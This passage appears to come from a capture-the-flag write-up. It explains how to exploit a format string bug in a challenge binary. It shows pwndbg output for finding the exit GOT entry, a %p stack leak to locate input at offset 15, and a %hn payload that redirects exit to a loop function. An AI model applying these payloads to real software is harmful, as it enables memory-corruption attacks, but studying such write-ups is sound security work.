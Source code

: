 We have format string vulnerability in `set_exit_message`. But the problem is that programs closes after executing it once, and we can’t make the exploit work in a single run. To work around this we can overwrite **GOT **entry of exit function. First, we need to find the address of exit:

~~~text
    pwndbg> break exit@plt
    Breakpoint 1 at 0x400730
    pwndbg> disassemble 0x400730

    0x400730 <exit@plt>  jmp qword ptr [rip + 0x200b22] <0x601258>
    ...

    pwndbg> x /xw 0x601258           //GOT address of exit
    0x601258 <exit@got.plt>: 0x00400736
~~~

In the snippet above we set a breakpoint on the address of `exit@plt` and then we examine memory it points to.

If you are not familiar with how **GOT/PLT** works, basically library functions are not called directly. Instead in **.txt** section we have calls to `func@plt` which call real functions using the address in **GOT**. **PLT** function addresses are fixed in **.txt** section while **GOT** entries are resolved at run-time. This enables things like dynamic loading and **ASLR**. The first time function is called, **GOT** will contain the only address of **PLT** resolver code which is tasked with getting the real address of function and updating **GOT**. Subsequent calls will read **GOT** value and call the function directly.

We also need to find the address of `loop` function.

~~~text
    pwndbg> p loop
    $1 = {<text variable, no debug info>} 0x4009bd <loop>
~~~

Since address of `loop` is similar to value found in GOT entry for `exit` we don’t have to overwrite everything. It is enough to overwrite 2 lower bytes. But before we overwrite it, we need to find how to access data we put on stack. We can achieve this with `%p`(using `%x` is not good way to display memory addresses, it works on 32 bit but since it is size of unsigned int it will fail on 64 bit binaries). Using `'exit'.ljust(8) + 'A' *8 + '.%p' * 20` we get:

    AAAAAAAA.0x7f0c3ea13323.0x7f0c3ea147a0.0x7f0c3e748c00.0x7f0c3ea147a0.0x70252e70252e7025.(nil).0x7ffeb5112115.0x7ffeb5112520.0x400aa6.(nil).0x7ffeb5112110.0x7ffeb5112110.0x7ffeb5112115.0x2020200074697865.0x4141414141414141.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70

`ljust` is used to align data we put on stack won’t be split between two memory addresses. From the output, we see that our input is in 15th position. `$` enables us to read from a specified position on the stack, we can use this to verify if we have the right position:

    'exit'.ljust(8) + 'A' *8 + '.%15$p'

Now we are going to overwrite `exit` **GOT** entry with `loop` address. To overwrite only 2 lower bytes we are going to use `%hn` specifier.

    'exit'.ljust(8) + '%{0}c|%17$hn|'.format(2493 - 6).rjust(16) + exit_got

2 lower bytes of `loop` address are `0x09bd` which is 2493 decimal, but we deduct 6 since some extra characters get printed. To fine-tune the exact number we just use **gdb** and check for value after we overwrite. Also, we put `exit` **GOT** address on the end since it contains a null byte which stops `printf`.
